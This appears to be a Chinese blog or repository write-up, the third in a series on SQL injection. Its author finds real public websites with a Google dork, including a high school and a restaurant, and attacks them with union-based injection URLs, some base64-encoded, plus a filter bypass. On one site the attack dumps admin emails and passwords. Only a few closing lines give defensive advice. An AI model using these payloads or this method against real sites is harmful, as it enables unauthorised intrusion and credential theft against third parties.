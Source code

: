 ## 计算机病毒与入侵关于SQL注入的研究（三）
### 写在前面
上次我们研究了怎样通过union进行托库，本次我们玩点真的：***利用google搜索引擎进行手动注入***

### 搜索引擎的使用
使用google搜索```inurl:.php?id=MTM=```，这里inurl指的是在url内有后面字符串的网站，后面的id=MTM=是指base64加密后的id=13。查询出来结果如下：
![third1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third1.png)

我自己经过删选测试，选取了三个网站：
- http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSw0LDUsNiw3LDgsOSwxMCwxMSwxMiwxMywxNCwxNQ==
- http://www.thzx.net/e/pl/?classid=34&id=1373(一所高中)
- http://www.zaaffran.com/testimonials.php?id=MTM=(一家印度餐厅)

本次就对这三个网站进行破解。
先回顾一下我们上次自己研究的几个破解步骤：
- 测试能否被注入
- 通过union测表段数目
- 通过mysql函数得到数据库的名称
- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称
- 获取想要的数据

***我们借助http://www1.tc711.com/tool/BASE64.htm这个base64工具进行base64加解密***

### 第一个网站的SQL注入
- 测试是否能被注入，访问```http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==```，含义是```id=13 and 1=2```，返回的结果如下图，表明是可以注入的
![third2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third2.png)

- 通过union测表段数目，这一个就比较无聊了，我们从1到30挨个测（30以上直接放弃，要累死= - =），最后测试出来表段数目是15，访问```http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=```，含义是```id=13 and 1=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15```，可以看到有九个显示位，显示位很多，就用不到concat()函数了，结果如下图：
![third3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third3.png)

- 通过mysql函数得到数据库的名称，访问```http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1```,含义是```id=13 and 1=1 union select 1,database(),3,4,5,6,7,8,9,10,version(),12,13,14,15```，我们可以看到如下图的结果，表明数据库的名称是csearch，版本是4.0.25
![third4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third4.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称，访问```http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg```，含义是```id=13 and 1=1 union select 1,2,3,table_name,5,6,7,8,9,10,11,12,13,14,15 from information_shcema```，结果竟然是没有权限！！！
![third5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third5.png)

由于第四步发现这个用户没有权限，我决定放弃，盲注猜表名和错误回显法的耗时较长，同时这个网站应该主要是用来搜索，我尝试了没有users表和admins表就放弃了= - =。

### 第二个网站的SQL注入
- 测试能否被注入，访问```http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/```发现没有问题，继续
![third6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third6.png)

- 通过union测表段数目，访问```http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5```，惊喜地看到了360= - =，网站过滤了select
![third7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third7.png)
我又查了几下，看到可以这样访问```http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5```，这样绕过了select封锁，然而程序一点错误回显也没有
![third8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third8.png)
好吧，看起来没有漏洞的样子，放弃

### 第三个网站的SQL注入
- 测试能否被注入，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==```，含义是```id=13 and 1=2```，结果如下，可以发现页面没有显示，证明是可以注入的
![third9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third9.png)

- 通过union测表段数目，从1到30挨个测试，运气不错，上来直接猜到了是7,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==````，结果如下图所示，可以看到有三个显示位
![third10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third10.png)

- 通过mysql函数得到数据库的名称，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3```,含义是```id=14 and 1=2 union select 1,database(),version(),4,5,6,7```，结果如下图，得到数据库的名称是zaaffran_zaaffran，数据库版本是5.5.2
![third11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third11.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=```,含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables```，可以看到五个数据表：
![third12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third12.png)
这里只有五张表，而且都是系统表，所以我尝试了一下使用order by table_type,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==```，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by table_type```
![third13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third13.png)
可以发现报错了，我结合只有五条数据显示判断系统后面加入了limit 5这个子句，所以导致返回错误，因此访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=```，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by 1#```，这次显示结果如下，成功了！
![third14.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third14.png)
同时我们搜索到了adminusers表这个敏感的表，我决定对这个表进行查询，访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==```，含义是```14 and 1=2 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_name='adminusers' order by 1#```，可以看到如下图所有的表段
![third15.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third15.png)

- 获取想要的数据,访问```http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==```,含义是```14 and 1=2 union select 1,2,UserEmail,UserPassword,5,6,7 from adminusers#```,可以看到adminusers表里面的所有数据
![third16.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third16.png)

## 总结
本次我们进行了三次对公共网站的SQL注入，第一次和第二次不是很成功，第三次好歹是拿到数据了，尝试了一下扩大战果：
```select user,password from mysql.user```，失败= - =，估计是没有权限。
select hex(load_file())的方法也是失败，毕竟mysql版本是5.5，安全级别较高，想要load_file()还是很难的。

碰上的坑：注释使用--的时候，后面要带有一个空格

关于怎样规避SQL的一些经验：可以看到第一二次注入失败，一个是因为权限问题，一个是因为Select过滤的问题，这可以给我们一些防范SQL注入的启示：
- 限制死权限，单独搞一个数据库和用户暴露给外界，把查询的范围和权限限制死，你就算可以注入也然并卵，数据没有用啊！
- 直接过滤掉union或者select，不允许传的参数里面带有这个（360的做法）